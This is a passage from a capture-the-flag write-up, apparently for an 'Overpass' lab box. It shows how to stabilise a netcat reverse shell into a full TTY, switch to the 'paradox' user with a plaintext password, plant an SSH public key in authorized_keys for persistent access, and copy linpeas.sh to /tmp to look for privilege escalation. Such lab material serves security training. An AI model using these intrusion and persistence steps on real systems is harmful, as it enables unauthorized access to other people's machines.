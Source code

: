 Now use `fg` command to go back to netcat reverse shell and hit `Enter Key` twice or use `reset` command. Now you have better TTY shell but if you have to upgrade that shell more so then again press `Ctrl+z` to background the nc terminal and then type the following command 

```
$ echo $TERM
```
This command will show you the some value like this `xterm-256color` remember that value and then  use the following command
```
$ stty size
```
This command will show you some numbers like `20 120` so in this the first number show the rows and second show the column so note both the value and use `fg` command to go back to your nc shell and type the following command 
```
$ export TERM=xterm-256color

$ stty rows 30 columns 120
```
Once you done that you should get the netcat shell like a `ssh` shell.

## Privilege Escalation

So we have the ftp credentials for `paradox` user so we can do local priv-escalation so use the following command to login into `paradox` user
```
$ su paradox
password: ShibesAreGreat123
```
So when we use `ls -al` command in the `paradox` user home directory there so we see the following result
![OverpassHostingAccess](https://user-images.githubusercontent.com/85181215/128857401-60ee003a-138f-4b0a-b314-d93904e8ed91.png)
 
There is a directory name `.ssh` when we go there we see the following files there
![OverpassHostingAccesSsh png ](https://user-images.githubusercontent.com/85181215/128857483-213107b4-ce2c-4cf9-8afc-b6d8b7446b29.png)

There is only two file there one is `authorized_keys` and the other is `id_rsa.pub` so there is no ssh private key there so we can only connect to the ssh if we add our ssh public key in the `authorized_keys` file. To do that first we have to create a ssh key pair in our system using the following command 
```
$ ssh-keygen -f rsa  
```
This will create a ssh key pair in `.ssh` directory in `paradox` user home directory. so use `cd ~/.ssh/` command to go to that directory and there you will see two files one name is `id.rsa` and other is `id.rsa.pub` so use `cat id.rsa.pub` command to see the content of that file and copy it. Now go to the netcat reverse shell and use the following command to edit the `authorized_keys` file 
```
$ nano authorized_keys
```
and paste your public key there and now you can ssh to the target with the following command 
```
$ ssh paradox@Target_IP
```
Now you got the ssh connection also. Now we can try to search common privilege escalation vector to do that we can use `linpeas.sh` for this download [inpeas.sh](https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/linpeas.sh) in your system and we can use scp to copy that file in the system using the following command
```
$ scp ./linpeas.sh paradox@Target_IP:/tmp
```
This command will copy `linpeas.sh` file in the target `/tmp` directory using `paradox` ssh account so when we go there we can see the file.
